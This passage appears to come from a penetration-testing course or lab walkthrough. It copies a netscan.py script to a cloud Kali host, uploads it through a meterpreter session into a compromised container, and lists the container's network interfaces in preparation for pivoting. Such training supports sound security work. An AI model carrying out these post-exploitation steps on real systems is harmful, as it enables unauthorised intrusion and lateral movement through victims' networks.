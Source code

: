 Once we create our script, we'll use **scp** to copy **netscan.py** to our cloud Kali instance under **/home/kali/**.

```
kali@kali:~$ scp ./netscan.py kali@34.203.75.99:/home/kali/
kali@34.203.75.99's password: 
netscan.py                                100%  462     2.0KB/s   00:00  
```

> Listing 39 - Transfering netscan.py Script to Cloud Kali Instance

Now that we have the script on the cloud Kali instance, we'll use meterpreter to transfer it to our victim. We'll use the **upload** command to transfer **/home/kali/netscan.py** to the root directory in the container.

```
meterpreter > upload /home/kali/netscan.py /netscan.py
[*] Uploading  : /home/kali/netscan.py -> /netscan.py
[*] Uploaded 559.00 B of 559.00 B (100.0%): /home/kali/netscan.py -> /netscan.py
[*] Completed  : /home/kali/netscan.py -> /netscan.py
```

> Listing 40 - Uploading Our netscan.py Script to Target

Let's remind ourselves of the network ranges we're targeting by rerunning **ifconfig**.

```
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP LOOPBACK RUNNING
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 65
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:04
MTU          : 1500
Flags        : UP BROADCAST RUNNING MULTICAST
IPv4 Address : 172.18.0.4
IPv4 Netmask : 255.255.0.0


Interface 67
============
Name         : eth1
Hardware MAC : 02:42:ac:1e:00:03
MTU          : 1500
Flags        : UP BROADCAST RUNNING MULTICAST
IPv4 Address : 172.30.0.3
IPv4 Netmask : 255.255.0.0
```
